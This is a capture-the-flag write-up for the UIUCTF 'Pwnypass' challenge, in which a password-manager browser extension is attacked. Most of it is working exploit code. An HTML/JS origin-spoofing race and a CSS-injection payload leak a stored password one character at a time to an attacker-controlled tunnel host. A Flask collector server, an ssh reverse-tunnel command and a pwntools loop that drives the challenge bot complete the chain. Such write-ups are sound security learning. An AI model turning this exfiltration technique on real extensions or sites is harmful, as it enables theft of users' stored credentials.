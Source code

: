 # Pwnypass

We're working on a cool password manager extension for SIGPwny members. Can you break it?

```bash
ncat --ssl pwnypass-bot.chal.uiuc.tf 1337
```

## Setup

I have created this **docker-compose.yml** file:

```yml
services:
  challenge:
    build: .
    ports:
      - 1337:1337
      - 1338:1338
    privileged: true
```

Also modify the **bot.js** file in order to reduce the bot **timeout** for debugging:

```js
const BOT_TIMEOUT = process.env.BOT_TIMEOUT || 10000;
```

## Writeup Flag 1

We need to steel **sigpwny** password from the password manager extensions with **https://pwnypass.c.hc.lc** as **origin**.

To do it, we can use this sequence of **js** command in order to change our **origin** and submit a new password for **https://pwnypass.c.hc.lc**:

```html
<form id=f><input type=text id=u value='new-username'><input type=password id=p value='new-password'></form>
<script>
const delay = t => new Promise(r => setTimeout(r, t));
onload = async () => {
    await delay(1000);
    window.location.assign("https://pwnypass.c.hc.lc/");
    p.dispatchEvent(new Event('change'));
    await delay(25);
    window.stop();
    await delay(300);
    window.location.assign("https://pwnypass.c.hc.lc/");
    f.dispatchEvent(new Event('submit'));
    await delay(25);
    window.stop();
    await delay(200);
    window.location.assign("https://pwnypass.c.hc.lc/login.php");
};
</script>
```

The new credentials that we want to write are an **CSS Injection** attack that it will steel original password:

```css
[data-username="sigpwny"]~[data-password^="uiuctf{f"]{{background:url("https://fb703645550ca9.lhr.life/guess/102");}}
```

We can repeat this payload with all **ascii** chars and if one of this chars **match** it will send a request to our **server**.

So we can make this exploit and use **localhost.run** to have a public address:

```bash
ssh -R 80:localhost:8000 nokey@localhost.run
```

Now launch the exploit with the correct public ip:

```python
from flask import Flask

app = Flask(__name__)

PAYLOAD = """
<form id=f><input type=text id=u value='hack'><input type=password id=p value='<style>{0}</style>'></form>
<script>
const delay = t => new Promise(r => setTimeout(r, t));
onload = async () => {{
    await delay(1000);
    window.location.assign("https://pwnypass.c.hc.lc/");
    p.dispatchEvent(new Event('change'));
    await delay(25);
    window.stop();
    await delay(300);
    window.location.assign("https://pwnypass.c.hc.lc/");
    f.dispatchEvent(new Event('submit'));
    await delay(25);
    window.stop();
    await delay(200);
    window.location.assign("https://pwnypass.c.hc.lc/login.php");
}};
</script>
"""

ALPHA = r"abcdefghijklmnopqrstuvwxyz{}_?!@#$%^&*(0123456789"
ORIGIN = "https://84110b9b01de67.lhr.life"
guessed_flag = "uiuctf{"

def generate_style():
    style = ""
    for c in ALPHA:
        style += f'[data-username="sigpwny"]~[data-password^="{guessed_flag}{c}"]{{background:url({ORIGIN}/guess/{ord(c)});}}'
    return style

@app.route("/")
def brute():
    #print('Payload sent:', str.format(PAYLOAD, generate_style()))
    return str.format(PAYLOAD, generate_style())

@app.route('/guess/<int:char>')
def guess(char):
    global guessed_flag
    guessed_flag += chr(char)
    print('Current flag:', guessed_flag)
    return 'this is not a valid image =)'

if __name__ == '__main__':
    app.run('0.0.0.0', debug=False, port=8000)
```

Now, to steel the complete password, we need to repeat this attack and clear the directory where the extension will store all credentials.

Otherwise we will receive always the same char.

So we can build this script to submit the attacker link (just wait the **timeout** string of the **bot**):

```python
from pwn import *

ip = 'localhost'
ip = 'pwnypass-bot.chal.uiuc.tf'
port = 1337

attacker_url = b'https://84110b9b01de67.lhr.life'

while True:
    conn = remote(ip, port, ssl=True)
    conn.recv()

    conn.sendline(attacker_url)
    conn.recvuntil(b'timeout')
    print("Attack done!")
    conn.close()
```

Now launch all scripts and wait until entire flag is stolen:

```
uiuctf{0h_no_th3_pwn1es_4r3
```